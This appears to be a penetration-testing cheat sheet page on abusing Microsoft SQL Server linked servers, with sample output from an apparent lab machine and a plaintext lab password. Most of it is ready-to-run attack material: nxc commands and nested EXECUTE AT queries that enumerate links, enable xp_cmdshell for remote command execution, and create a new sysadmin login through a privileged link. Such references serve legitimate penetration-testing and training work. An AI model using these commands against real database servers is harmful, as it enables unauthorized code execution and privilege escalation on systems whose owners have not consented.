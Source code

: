 ```yaml
---
title: "MSSQL Linked Servers"
date: 2024-6-27
tags: ["Database Dumping", "Privilege Escalation In Databases", "Mssql", "Database", "Windows", "Linked Server"]
---
```


### Enum

{{< tab set1 tab1 >}}SQL{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<small>*Hint: Use double '' to escape ' in mssql*</small>

```console
# Show current server
select @@servername
```

```console
# Show linked servers
select srvname from sysservers;
```

```console
# Show linked servers
enum_links
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Enumerate Linked MSSQL Servers

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M enum_links
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M enum_links 
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
ENUM_LINKS  10.129.254.242  1433   DC               [+] Linked servers found:
ENUM_LINKS  10.129.254.242  1433   DC               [*]   - WIN-Q13O908QBPG\SQLEXPRESS
```

{{< /tabcontent >}}

---

### Execute Query between Linked Servers

{{< tab set2 tab1 >}}SQL{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Execute query from current server to linked server
EXECUTE ('select @@version;') at [<LINKED_SERVER>];
```

```console
# Execute query from linked server to current server
EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [<CURRENT_SERVER>]') at [<LINKED_SERVER>];
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M exec_on_link -o LINKED_SERVER=<LINKED_SERVER> COMMAND=<QUERY>
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M exec_on_link -o LINKED_SERVER='WIN-Q13O908QBPG' COMMAND='SELECT name FROM sys.server_principals WHERE sid = 01'
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
EXEC_ON_... 10.129.254.242  1433   DC               [*] Command output: []
```

{{< /tabcontent >}}

---

### Abuse #1: Execute Shell Commands on the Linked Server

{{< tab set3 tab1 >}}nxc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Enable the CMD Shell on a Linked Server

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M link_enable_xp -o LINKED_SERVER=<LINKED_SERVER> ACTION=enable
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M link_enable_xp -o LINKED_SERVER='WIN-Q13O908QBPG' ACTION=enable
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
LINK_ENA... 10.129.254.242  1433   DC               [*] Enabling advanced options on WIN-Q13O908QBPG...
LINK_ENA... 10.129.254.242  1433   DC               [*] Enabling xp_cmdshell on WIN-Q13O908QBPG...
LINK_ENA... 10.129.254.242  1433   DC               [*] []
LINK_ENA... 10.129.254.242  1433   DC               [+] xp_cmdshell enabled on WIN-Q13O908QBPG
```

#### 2. RCE

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M link_xpcmd -o LINKED_SERVER=<LINKED_SERVER> CMD='<CMD>'
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M link_xpcmd -o LINKED_SERVER='WIN-Q13O908QBPG' CMD='whoami'
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
LINK_XPCMD  10.129.254.242  1433   DC               [*] Running command on WIN-Q13O908QBPG: whoami
LINK_XPCMD  10.129.254.242  1433   DC               [+] Command output:
[]
```

{{< /tabcontent >}}

---

### Abuse #2: Create Admin User from Privilege Linked Server

{{< tab set4 tab1 >}}SQL{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
EXECUTE('EXECUTE(''CREATE LOGIN <USER> WITH PASSWORD = ''''<PASSWORD>'''';'') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

```console
EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<USER>'''', ''''sysadmin'''''') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

{{< /tabcontent >}}
